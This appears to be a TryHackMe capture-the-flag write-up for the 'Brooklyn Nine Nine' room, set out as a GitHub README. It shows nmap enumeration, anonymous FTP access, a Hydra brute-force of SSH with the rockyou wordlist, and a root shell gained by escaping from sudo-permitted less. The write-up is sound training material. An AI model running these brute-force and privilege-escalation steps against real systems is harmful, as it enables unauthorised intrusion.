







# TryHackMe - Brooklyn Nine Nine Writeup

## Room Information

| Category   | Value                                                          |
| ---------- | -------------------------------------------------------------- |
| Platform   | TryHackMe                                                      |
| Room       | Brooklyn Nine Nine                                             |
| Difficulty | Easy                                                           |
| Topics     | Enumeration, FTP, SSH, Password Cracking, Privilege Escalation |

## Objective

Gain initial access to the target machine and escalate privileges to obtain both the user and root flags.

---

## Reconnaissance

I started by performing a service and version scan using Nmap.

```bash
nmap -sC -sV <TARGET_IP>
```

### Screenshot: Nmap Scan



### Results

```text
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

The scan revealed three exposed services: FTP, SSH, and HTTP. Since FTP was accessible, I chose to investigate it first.

---

## FTP Enumeration

I connected to the FTP service using anonymous authentication.

```bash
ftp <TARGET_IP>
```

```text
Name: anonymous
Password:
```

After listing the available files, I discovered a file named `note_to_jake.txt`.

```bash
ls
get note_to_jake.txt
```

### Screenshot: FTP Login and File Discovery



The contents of the note suggested that Jake was using a weak password.

---

## Credential Discovery

Using the username identified from the note, I performed a password attack against SSH using Hydra and the RockYou wordlist.

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

### Screenshot: Hydra Password Discovery



Hydra successfully identified valid SSH credentials.

---

## Initial Access

Using the recovered credentials, I connected to the target via SSH.

```bash
ssh jake@<TARGET_IP>
```

After gaining access, I searched for the user flag.

```bash
find / -name user.txt 2>/dev/null
cat user.txt
```

### Screenshot: SSH Access and User Flag



Initial access to the machine was successfully obtained, and the user flag was retrieved.

---

## Privilege Escalation

The first privilege escalation step was checking the user's sudo permissions.

```bash
sudo -l
```

### Screenshot: Sudo Permissions



The output showed that the user could execute `less` as root without requiring a password.

```text
(root) NOPASSWD: /usr/bin/less
```

I launched the binary with sudo privileges:

```bash
sudo less /etc/profile
```

Inside `less`, I escaped to a shell:

```text
!/bin/sh
```

Verifying privileges:

```bash
whoami
```

```text
root
```

### Screenshot: Root Shell



Root access was successfully obtained.

---

## Root Flag

With elevated privileges, I navigated to the root directory and retrieved the final flag.

```bash
cat /root/root.txt
```

### Screenshot: Root Flag



---

## Attack Path Summary

1. Performed service enumeration using Nmap.
2. Identified anonymous FTP access.
3. Downloaded and analyzed `note_to_jake.txt`.
4. Discovered a valid username.
5. Used Hydra and RockYou to obtain SSH credentials.
6. Logged into the machine through SSH.
7. Retrieved the user flag.
8. Enumerated sudo permissions.
9. Exploited `less` to obtain a root shell.
10. Retrieved the root flag.

---

## Tools Used

* Nmap
* FTP
* Hydra
* SSH
* GTFOBins

---

## Lessons Learned

* Enumeration is the most important phase of an engagement.
* Anonymous FTP access can expose sensitive information.
* Weak passwords are often enough to compromise a system.
* Checking `sudo -l` should be part of every Linux privilege escalation workflow.
* GTFOBins provides valuable techniques for abusing misconfigured sudo permissions.

---

## Repository Structure

```text
brooklyn-nine-nine/
├── README.md
└── screenshots/
    ├── nmap_scan.png
    ├── ftp_enumeration.png
    ├── hydra_success.png
    ├── ssh_user_flag.png
    ├── sudo_permissions.png
    ├── root_shell.png
    └── root_flag.png
```
